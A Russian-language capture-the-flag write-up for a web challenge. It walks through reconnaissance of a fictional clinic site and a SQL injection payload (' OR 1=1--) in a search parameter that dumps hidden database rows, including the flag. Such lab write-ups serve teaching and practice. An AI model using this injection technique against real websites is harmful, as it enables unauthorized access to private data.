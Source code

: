 # Web 100 / Hospital Entrance

> В одну из продвинутых клиник города завезли вакцину от вируса, у вас есть шанс сделать себе прививку!

Заходим на [http://zombie.breakingbrain.org](http://zombie.breakingbrain.org).

Проверяем исходный код страницы, куки, location storage и тд. Пусто.

Смотрим [http://zombie.breakingbrain.org/robots.txt:](http://zombie.breakingbrain.org/robots.txt:)

```
User-agent: *
Disallow:
Flag: "No flag here"
```

Тоже пусто :)

В адресной строке видим параметр `r=site/doctors`. Пробуем LFI (Local File Inclusion). Мимо.

Записываемся на прием. При выборе доктора можно вводить его имя в поле поиска. В это время на сервер летят запросы след. вида:

```markdown
GET /index.php?r=site/search&term=Бух&\_type=query&q=Бух
```

Который возвращает JSON вида:

```JSON
[
  {
    "spec": "Нарколог",
    "name": "Бухал О.Х.",
    "status": "active"
  }
]
```

В списке только доктора, у которых `status` равен `active`.

Значит там SQL запрос примерно такого вида:

```markdown
SELECT spec, name, status FROM doctors WHERE status = "active" AND name = ?
```

Пробуем SQL Injection в параметре `q`:

```markdown
http://zombie.breakingbrain.org/index.php?r=site/search&q=Бух' OR 1=1--
```

Возвращается уже весь список докторов. Один из элементов массива такой:

```JSON
...
{
  "spec": "Инфекционист",
  "name": "ITF{@n71V!ru5_Dr.H0us3}",
  "status": "deleted"
},
...
```

Флаг наш.
